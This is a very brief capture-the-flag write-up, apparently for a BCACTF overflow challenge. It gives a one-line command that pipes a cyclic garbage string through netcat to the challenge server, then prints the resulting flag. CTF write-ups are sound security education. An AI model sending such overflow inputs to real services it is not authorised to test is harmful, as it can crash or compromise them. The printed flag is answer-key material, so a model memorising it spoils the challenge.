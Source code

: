Just send garbage string to get the flag.

```bash
cyclic 100 | nc challs.bcactf.com 32250
```


bcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}